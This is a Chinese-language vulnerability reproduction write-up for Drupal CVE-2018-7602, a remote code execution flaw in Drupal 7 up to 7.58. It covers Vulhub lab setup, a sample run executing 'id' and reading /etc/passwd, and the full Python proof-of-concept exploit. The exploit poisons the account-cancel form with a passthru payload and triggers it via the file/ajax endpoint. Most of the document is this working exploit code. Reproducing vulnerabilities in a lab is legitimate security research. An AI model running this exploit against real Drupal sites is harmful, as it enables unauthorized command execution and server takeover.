


# Drupal 远程代码执行漏洞 CVE-2018-7602 

## 漏洞描述

影响软件：drupal

方式：对URL中的#进行编码两次，绕过sanitize()函数过滤

效果：任意命令执行

## 环境搭建

Vulhub执行如下命令启动drupal 7.57的环境：

```bash
docker-compose up -d
```

环境启动后，访问 `http://your-ip:8081/` 将会看到drupal的安装页面，一路默认配置下一步安装。因为没有mysql环境，所以安装的时候可以选择sqlite数据库。



## 漏洞复现

参考[pimps/CVE-2018-7600](https://github.com/pimps/CVE-2018-7600/blob/master/drupa7-CVE-2018-7602.py)的PoC，执行以下命令即可复现该漏洞，示例命令为 `id`：

```bash
# "id"为要执行的命令 第一个drupal为用户名 第二个drupal为密码
python3 drupa7-CVE-2018-7602.py -c "id" drupal drupal http://127.0.0.1:8081/
```

执行`cat /etc/passwd`:



## 漏洞POC

```python
#!/usr/bin/env python3

import requests
import argparse
from bs4 import BeautifulSoup

def get_args():
  parser = argparse.ArgumentParser( prog="drupa7-CVE-2018-7602.py",
                    formatter_class=lambda prog: argparse.HelpFormatter(prog,max_help_position=50),
                    epilog= '''
                    This script will exploit the (CVE-2018-7602) vulnerability in Drupal 7 <= 7.58
                    using an valid account and poisoning the cancel account form (user_cancel_confirm_form) 
                    with the 'destination' variable and triggering it with the upload file via ajax (/file/ajax).
                    ''')

  parser.add_argument("user", help="Username")
  parser.add_argument("password", help="Password")
  parser.add_argument("target", help="URL of target Drupal site (ex: http://target.com/)")
  parser.add_argument("-c", "--command", default="id", help="Command to execute (default = id)")
  parser.add_argument("-f", "--function", default="passthru", help="Function to use as attack vector (default = passthru)")
  parser.add_argument("-x", "--proxy", default="", help="Configure a proxy in the format http://127.0.0.1:8080/ (default = none)")
  args = parser.parse_args()
  return args

def pwn_target(target, username, password, function, command, proxy):
  requests.packages.urllib3.disable_warnings()
  session = requests.Session()
  proxyConf = {'http': proxy, 'https': proxy}
  try:
    print('[*] Creating a session using the provided credential...')
    get_params = {'q':'user/login'}
    post_params = {'form_id':'user_login', 'name': username, 'pass' : password, 'op':'Log in'}
    print('[*] Finding User ID...')
    session.post(target, params=get_params, data=post_params, verify=False, proxies=proxyConf)
    get_params = {'q':'user'}
    r = session.get(target, params=get_params, verify=False, proxies=proxyConf)
    soup = BeautifulSoup(r.text, "html.parser")
    user_id = soup.find('meta', {'property': 'foaf:name'}).get('about')
    if ("?q=" in user_id):
      user_id = user_id.split("=")[1]
    if(user_id):
      print('[*] User ID found: ' + user_id)
    print('[*] Poisoning a form using \'destination\' and including it in cache.')
    get_params = {'q': user_id + '/cancel'}
    r = session.get(target, params=get_params, verify=False, proxies=proxyConf)
    soup = BeautifulSoup(r.text, "html.parser")
    form = soup.find('form', {'id': 'user-cancel-confirm-form'})
    form_token = form.find('input', {'name': 'form_token'}).get('value')
    get_params = {'q': user_id + '/cancel', 'destination' : user_id +'/cancel?q[%23post_render][]=' + function + '&q[%23type]=markup&q[%23markup]=' + command }
    post_params = {'form_id':'user_cancel_confirm_form','form_token': form_token, '_triggering_element_name':'form_id', 'op':'Cancel account'}
    r = session.post(target, params=get_params, data=post_params, verify=False, proxies=proxyConf)
    soup = BeautifulSoup(r.text, "html.parser")
    form = soup.find('form', {'id': 'user-cancel-confirm-form'})
    form_build_id = form.find('input', {'name': 'form_build_id'}).get('value')
    if form_build_id:
        print('[*] Poisoned form ID: ' + form_build_id)
        print('[*] Triggering exploit to execute: ' + command)
        get_params = {'q':'file/ajax/actions/cancel/#options/path/' + form_build_id}
        post_params = {'form_build_id':form_build_id}
        r = session.post(target, params=get_params, data=post_params, verify=False, proxies=proxyConf)
        parsed_result = r.text.split('[{"command":"settings"')[0]
        print(parsed_result)
  except:
    print("ERROR: Something went wrong.")
    raise

def main():
  print ()
  print ('===================================================================================')
  print ('|   DRUPAL 7 <= 7.58 REMOTE CODE EXECUTION (SA-CORE-2018-004 / CVE-2018-7602)     |')
  print ('|                                   by pimps                                      |')
  print ('===================================================================================\n')

  args = get_args() # get the cl args
  pwn_target(args.target.strip(),args.user.strip(),args.password.strip(), args.function.strip(), args.command.strip(), args.proxy.strip())


if __name__ == '__main__':
  main()
```

